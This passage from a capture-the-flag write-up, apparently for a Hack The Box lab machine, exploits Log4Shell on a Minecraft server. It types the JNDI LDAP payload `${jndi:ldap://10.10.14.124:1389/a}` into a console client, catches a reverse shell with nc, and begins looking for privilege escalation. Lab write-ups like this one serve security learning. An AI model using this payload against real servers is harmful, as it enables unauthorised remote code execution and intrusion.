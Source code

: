 Now run the Minecraft Console Client we donwloaded earlier:

```bash
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Settings file MinecraftClient.ini has been generated.

MCC is running with default settings.
Password(invisible): 
You chose to run in offline mode.
Server IP : 
Retrieving Server Info...
Unexpected response from the server (is that a Minecraft server?)
Failed to ping this IP.
Server version : 
Restarting Minecraft Console Client...
Settings have been loaded from MinecraftClient.ini
You chose to run in offline mode.
Using Minecraft version 1.16.5 (protocol v754)
Downloading 'es_es.json' from Mojang servers...
Done. File saved as 'lang/es_es.json'
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
> ${jndi:ldap://10.10.14.124:1389/a}
```

Now, we should get a hit into our server, and a reverse shell into our nc listener:

```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.124] from (UNKNOWN) [10.10.11.249] 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server> whoami
crafty\svc_minecraft
c:\users\svc_minecraft\server>
```

# Privilege Escalation
With a shell on the box, we can poke around the Minecraft's files. We can see a directory named `plugins`, that contains a `.jar` file:

```bash
c:\Users\svc_minecraft\server\plugins> dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server\plugins

10/27/2023  02:48 PM    <DIR>          .
10/27/2023  02:48 PM    <DIR>          ..
10/27/2023  02:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,424,145,408 bytes free

c:\Users\svc_minecraft\server\plugins>
```
